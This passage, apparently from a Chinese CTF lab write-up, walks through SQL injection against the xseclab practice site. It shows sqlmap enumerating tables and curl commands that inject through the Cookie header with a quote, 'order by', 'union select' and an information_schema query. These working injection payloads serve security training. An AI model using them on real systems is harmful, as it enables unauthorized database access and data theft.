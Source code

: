 获取表。
```
python sqlmap.py -u http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin -D mydbs --tables
```

	Database: mydbs
	[3 tables]
	+-------+
	| user  |
	| log   |
	| motto |
	+-------+

获取`motto`的字段



## SQL注入通用防护

过滤了HTTP的GET和POST方法，头一次听说COOKIE注入。

```
curl "http://lab1.xseclab.com/sqli8_f4af04563c22b18b51d9142ab0bfb13d/index.php?id=1" -H "Cookie: PHPSESSID=1c78312b1fc4ce0d5310b8681;id=1'"
```

	<html>
	    <head>
	        <title>SQLi8_article</title>
	    </head>
	    <body><br />
	<b>Warning</b>:  mysql_fetch_row() expects parameter 1 to be resource, boolean given in <b>sqli8_f4af04563c22b18b51d9142ab0bfb13d/index.php</b> on line <b>27</b><br />
	        
	    </body>
	</html>
那么接下来就是正常的注入过程。

- 得到字段数目
```
curl "http://lab1.xseclab.com/sqli8_f4af04563c22b18b51d9142ab0bfb13d/index.php?id=1" -H "Cookie: PHPSESSID=1c78312b1fc4ce0d5310b8681;id=2 order by 4"
```
字段数目为3。
- 得到显示位
```
curl "http://lab1.xseclab.com/sqli8_f4af04563c22b18b51d9142ab0bfb13d/index.php?id=1" -H "Cookie: PHPSESSID=1c78312b1fc4ce0d5310b8681;id=1 union select 1,2,3"
```

显示位为2，3

- 获取当前数据库的表
```
curl "http://lab1.xseclab.com/sqli8_f4af04563c22b18b51d9142ab0bfb13d/index.php?id=1" -H "Cookie: PHPSESSID=1c78312b1fc4ce0d5310b8681;id=1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()"
```
得到数据表为：`sae_manager_sqli8,sae_user_sqli8`
